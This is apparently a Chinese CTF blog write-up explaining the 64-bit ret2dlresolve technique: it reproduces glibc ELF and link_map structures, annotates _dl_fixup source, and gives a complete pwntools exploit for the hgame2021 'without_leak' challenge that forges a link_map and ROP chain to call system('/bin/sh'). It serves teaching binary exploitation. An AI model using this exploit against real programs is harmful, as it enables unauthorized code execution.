

先把相关结构体和宏都列一下把（也懒得一个一个解释了）
typedef struct
{
Elf64_Sxword d_tag; /* Dynamic entry type */
union
{
Elf64_Xword d_val; /* Integer value */
Elf64_Addr d_ptr; /* Address value */
} d_un;
} Elf64_Dyn;
typedef struct
{
Elf64_Word st_name; /* Symbol name (string tbl index) */
unsigned char st_info; /* Symbol type and binding */
unsigned char st_other; /* Symbol visibility */
Elf64_Section st_shndx; /* Section index */
Elf64_Addr st_value; /* Symbol value */
Elf64_Xword st_size; /* Symbol size */
} Elf64_Sym;
typedef struct
{
Elf64_Addr r_offset; /* Address */
Elf64_Xword r_info; /* Relocation type and symbol index */
} Elf64_Rel;
typedef struct
{
Elf64_Addr r_offset; /* Address */
Elf64_Xword r_info; /* Relocation type and symbol index */
Elf64_Sxword r_addend; /* Addend */
} Elf64_Rela;
#define ELF64_R_SYM(i) ((i) >> 32)
#define ELF64_R_TYPE(i) ((i) & 0xffffffff)
#define ELF64_R_INFO(sym,type) ((((Elf64_Xword) (sym)) << 32) + (type))
struct link_map {
Elf64_Addr l_addr;
char *l_name;
Elf64_Dyn *l_ld;
struct link_map *l_next;
struct link_map *l_prev;
struct link_map *l_real;
Lmid_t l_ns;
struct libname_list *l_libname;
Elf64_Dyn *l_info[76];
const Elf64_Phdr *l_phdr;
Elf64_Addr l_entry;
Elf64_Half l_phnum;
Elf64_Half l_ldnum;
struct r_scope_elem l_searchlist;
struct r_scope_elem l_symbolic_searchlist;
struct link_map *l_loader;
struct r_found_version *l_versions;
unsigned int l_nversions;
Elf_Symndx l_nbuckets;
Elf32_Word l_gnu_bitmask_idxbits;
Elf32_Word l_gnu_shift;
const Elf64_Addr *l_gnu_bitmask;
union {
const Elf32_Word *l_gnu_buckets;
const Elf_Symndx *l_chain;
};
union {
const Elf32_Word *l_gnu_chain_zero;
const Elf_Symndx *l_buckets;
};
unsigned int l_direct_opencount;
enum {lt_executable, lt_library, lt_loaded} l_type : 2;
unsigned int l_relocated : 1;
unsigned int l_init_called : 1;
unsigned int l_global : 1;
unsigned int l_reserved : 2;
unsigned int l_phdr_allocated : 1;
unsigned int l_soname_added : 1;
unsigned int l_faked : 1;
unsigned int l_need_tls_init : 1;
unsigned int l_auditing : 1;
unsigned int l_audit_any_plt : 1;
unsigned int l_removed : 1;
unsigned int l_contiguous : 1;
unsigned int l_symbolic_in_local_scope : 1;
unsigned int l_free_initfini : 1;
struct r_search_path_struct l_rpath_dirs;
struct reloc_result *l_reloc_result;
Elf64_Versym *l_versyms;
const char *l_origin;
Elf64_Addr l_map_start;
Elf64_Addr l_map_end;
Elf64_Addr l_text_end;
struct r_scope_elem *l_scope_mem[4];
size_t l_scope_max;
struct r_scope_elem **l_scope;
struct r_scope_elem *l_local_scope[2];
struct r_file_id l_file_id;
struct r_search_path_struct l_runpath_dirs;
struct link_map **l_initfini;
struct link_map_reldeps *l_reldeps;
unsigned int l_reldepsmax;
unsigned int l_used;
Elf64_Word l_feature_1;
Elf64_Word l_flags_1;
Elf64_Word l_flags;
int l_idx;
struct link_map_machine l_mach;
struct {
const Elf64_Sym *sym;
int type_class;
struct link_map *value;
const Elf64_Sym *ret;
} l_lookup_cache;
void *l_tls_initimage;
size_t l_tls_initimage_size;
size_t l_tls_blocksize;
size_t l_tls_align;
size_t l_tls_firstbyte_offset;
ptrdiff_t l_tls_offset;
size_t l_tls_modid;
size_t l_tls_dtor_count;
Elf64_Addr l_relro_addr;
size_t l_relro_size;
unsigned long long l_serial;
struct auditstate l_audit[];
}
64位下伪造时（bss段离.dynsym的地址太远）由于 reloc->r_info也很大，最后使得访问ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;时程序访存出错，导致程序崩溃。_dl_fixup中的源码:
if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
{
const struct r_found_version *version = NULL;
if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
{
const ElfW(Half) *vernum =
(const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
version = &l->l_versions[ndx];
if (version->hash == 0)
version = NULL;
}
所以在伪造时我们选择使得__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0这行判断不成立，进入else语句， 直接将l->l_addr + sym->st_value赋值给value，这使得我们需要伪造link_map。
_dl_fixup (struct link_map *l, ElfW(Word) reloc_arg)
{
//获取符号表地址
const ElfW(Sym) *const symtab= (const void *) D_PTR (l, l_info[DT_SYMTAB]);
//获取字符串表地址
const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
//获取函数对应的重定位表结构地址
const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
//获取函数对应的符号表结构地址
const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
//得到函数对应的got地址，即真实函数地址要填回的地址
void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
DL_FIXUP_VALUE_TYPE value;
//判断重定位表的类型，必须要为7--ELF_MACHINE_JMP_SLOT
assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
/* Look up the target symbol. If the normal lookup rules are not
used don't look in the global scope. */
if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
{
...
}
else
{
/* We already found the symbol. The module (and therefore its load
address) is also known. */
value = DL_FIXUP_MAKE_VALUE (l, l->l_addr + sym->st_value);
result = l;
}
...
// 最后把value写入相应的GOT表条目rel_addr中
return elf_machine_fixup_plt (l, result, reloc, rel_addr, value);
}
一般为了方便起见，一般直接控制reloc_index和reloc->r_info为0，把sym指向某一got-8的位置，这样sym->value就是libc中某一函数的地址，再控制l->l_addr为libc中system函数到该函数的偏移，这样l->l_addr + sym->st_value就变成了system函数的地址。
需要伪造的内容：
l->l_addr
l_info[5] (strtab相关)
l_info[6] (symtab相关)
l_info[23] (jmprel相关)
Elf64_Rela结构
伪造的大致草图（可能只有我自己看的懂八，滑稽.jpg）

以hgame2021 week3 without_leak为例子
纯ret2dlruntime

exp:
from pwn import*
context.log_level = 'debug'
context.arch = 'amd64'
p = process('./without_leak')
#p = remote("182.92.108.71",30483)
elf = ELF('./without_leak')
libc= ELF('/lib/x86_64-linux-gnu/libc.so.6')
def build_fake_link_map(elf,fake_linkmap_addr,one_got,offset):
target_addr = fake_linkmap_addr-8 #the result you write in
linkmap = p64(offset & (2**64-1)) #l_addr
linkmap = linkmap.ljust(0x68,'\x00')
linkmap += p64(fake_linkmap_addr) #l_info[5] dynstr
linkmap += p64(fake_linkmap_addr+0x100) #l_info[6] dynsym
linkmap = linkmap.ljust(0xf8,'\x00')
linkmap += p64(fake_linkmap_addr+0x110) #l_info[23] jmprel
linkmap += p64(0)+p64(one_got-8) #dynmic symtab
linkmap += p64(0)+p64(fake_linkmap_addr+0x120) #dynmic jmprel
linkmap += p64(target_addr-offset)+p64(7)+p64(0) #fake_jmprel
return linkmap
plt0 = elf.get_section_by_name('.plt').header.sh_addr
fake_link_map_addr = 0x00404000 +0x500
fake_link_map = build_fake_link_map(elf,fake_link_map_addr,elf.got['read'],libc.sym['system']-libc.sym['read'])
sh_addr = fake_link_map_addr + len(fake_link_map)
prdi = 0x401243
prsi_r15 = 0x401241
payload = 0x28*'\x00'+p64(prdi)+p64(0)+p64(prsi_r15)+p64(fake_link_map_addr)+p64(0)+p64(elf.plt['read'])
payload += p64(0x40119A)+p64(prdi) + p64(sh_addr) + p64(plt0+6)+p64(fake_link_map_addr)+p64(0)
payload = payload.ljust(0x200,'\x00')
#gdb.attach(p,'b *0x401199\nc\nb _dl_fixup\nc')
p.sendafter('> \n',payload)
payload = fake_link_map+'/bin/sh\x00'
p.send(payload)
p.interactive()
linkmap布局
linkmap:
0x00: l_addr (offset from libc_address to target address
.
0x68: P_DT_STRTAB = linkmap_addr(just a pointer)
0x70: p_DT_SYMTAB = fake_DT_SYMTAB = linkmap+0x100
.
0xF8: p_DT_JMPREL = fake_DT_JMPREL = linkmap+0x110
0x100: fake dynmic symtab #d_tag=0
0x108: #d_ptr=one_got-8
0x110: fake dynmic jmprel #d_tag=0
0x118: #d_ptr=linkmap+0x120
0x120: fake jmprel #r_offset= target-offset
0x128: #r_info=7
0x130: #r_append
这里拿到shell之后会稍微有点奇怪

一般出现Got EOF就是利用失败了，但是gdb调试发现程序确实执行了system，并且touch aaa确实会创建文件，并且exec 1>&0之后程序还是没有回显，本地不行，远程环境就可以。（待大佬指点）
感悟：真tm绕的不行，指针和宏定义都太多辣，但理解了也就那么回事情。
参考文档